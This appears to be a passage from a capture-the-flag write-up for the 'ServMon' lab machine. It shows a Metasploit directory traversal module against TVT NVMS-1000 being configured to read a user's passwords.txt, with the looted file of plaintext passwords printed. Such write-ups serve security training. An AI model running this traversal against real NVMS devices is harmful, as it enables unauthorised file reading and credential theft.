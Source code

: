 # exploitation

```bash
msf5 > search nvms

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal
   
msf5 > use auxiliary/scanner/http/tvt_nvms_traversal
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > show options

Module options (auxiliary/scanner/http/tvt_nvms_traversal):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   DEPTH      13                yes       Depth for Path Traversal
   FILEPATH   /windows/win.ini  yes       The path to the file to read
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       The base URI path of nvms
   THREADS    1                 yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host

msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set rhosts servmon.htb
rhosts => servmon.htb
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set filepath /users/nathan/desktop/passwords.txt
filepath => /users/nathan/desktop/passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/kali/.msf4/loot/20200418090637_default_10.10.10.184_nvms.traversal_531779.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

It works.

```
kali@kali:~$ cat /home/kali/.msf4/loot/20200418090637_default_10.10.10.184_nvms.traversal_531779.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

